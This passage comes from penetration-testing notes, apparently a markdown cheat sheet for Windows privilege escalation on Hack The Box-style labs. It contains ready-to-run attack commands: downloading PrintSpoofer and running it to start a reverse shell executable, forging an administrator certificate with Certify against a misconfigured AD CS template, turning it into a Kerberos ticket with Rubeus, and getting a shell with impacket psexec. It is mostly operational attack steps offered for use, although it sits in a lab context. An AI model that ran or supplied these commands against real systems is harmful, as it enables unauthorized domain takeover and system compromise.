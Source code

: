 Windows Version 1607 onwards

```powershell

wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe -O PrintSpoofer.exe

.\PrintSpoofer.exe -i -c "c:\Temp\rev_shell.exe"
```

* needs `vc_redist.x64.exe` and `vcruntime140.dll`, if failes



# Certificate exploits

UPDATE: better use `https://github.com/ly4k/Certipy`

* PKI might be badly configured
* exploit it using Certify.exe tool for recon and certificate forging

```bash
# see github for more info
Certify.exe find /vulnerable

#altname is the account for impersonation
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator

#Copy the  -----BEGIN RSA PRIVATE KEY----- ... -----END CERTIFICATE----- section to a file on Linux/macOS, and run the openssl #command to convert it to a .pfx. When prompted, don't enter a password:


openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

.\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx

#saving blob to ticket.64

tr -d '\n' < ticket.64 | tr -d ' '

# then just use ccache and call impackets psexec
impacket-psexe -no-pass -k target cmd


```

## Kernel Exploits

* User Kernel only as last resort to Windows PrivEsc

* Exploit suggesters

* Older systems:
